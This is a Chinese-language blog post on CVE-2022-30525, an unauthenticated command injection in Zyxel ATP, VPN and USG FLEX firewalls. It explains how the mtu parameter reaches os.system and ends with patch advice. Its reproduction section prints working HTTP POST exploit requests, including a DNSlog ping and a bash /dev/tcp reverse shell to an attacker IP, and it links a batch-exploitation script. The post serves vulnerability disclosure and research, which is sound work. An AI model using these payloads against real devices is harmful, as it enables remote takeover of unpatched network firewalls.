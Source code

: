 # Zyxel 防火墙未经身份验证的远程命令注入(CVE-2022-30525)




## 漏洞说明

ZyXEL USG FLEX 等都是中国台湾合勤（ZyXEL）公司的防火墙产品。2022年5月12日， Zyxel发布安全公告，修复了一个存在于部分防火墙版本的CGI程序中的命令注入漏洞。漏洞编号：CVE-2022-30525，漏洞威胁等级：严重，漏洞评分：9.8。

该漏洞存在于某些Zyxel防火墙版本的 CGI 程序中，允许在未经身份验证的情况下在受影响设备上以nobody用户身份执行任意命令。



## 影响范围

ATP系列固件：5.10-5.21 Patch 1

VPN系列固件：4.60-5.21 Patch 1

USG FLEX 100(W)、200、500、700：5.00-5.21 Patch 1

USG FLEX 50(W)/USG20(W)-VPN：5.10-5.21 Patch 1





## 漏洞复现

出现漏洞的文件为 `lib_wan_settings.py` 下的 `setWanPortSt` 方法，从源码里可以看到拼接的参数为 `mtu` , 随后直接 `os.system` 命令执行

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h275pdfbkaj20u00w2jvg.jpg)





**手工验证：**

POC：

其中`mtu`参数后面为要执行的命令

```http
POST /ztp/cgi-bin/handler HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/json
Connection: close
Content-Length: 165

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged"
:"1","vlanid":"5","mtu":"; ping {DNSlog};","data":"hi"}
```

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h274aj5tbsj225c0pmwj1.jpg)



反弹Shell:

```http
POST /ztp/cgi-bin/handler HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/json
Connection: close
Content-Length: 165

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged"
:"1","vlanid":"5","mtu":";bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1';","data":"hi"}
```





**批量验证：**

脚本地址：https://github.com/shuai06/CVE-2022-30525

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h274kbmig8j21yc0dyjti.jpg)

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h274q3zr04j21v40i20vf.jpg)



## 修复建议

厂商已发布补丁修复漏洞，用户请尽快更新至安全版本：ZLD V5.30。

下载链接如下：https://www.zyxel.com/support/download_landing.shtml







## 参考链接

https://mp.weixin.qq.com/s/du56JX1ft03Z-YtM2C2E8A









---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/zyxel-%E9%98%B2%E7%81%AB%E5%A2%99%E6%9C%AA%E7%BB%8F%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%9A%84%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5-cve-2022-30525/  

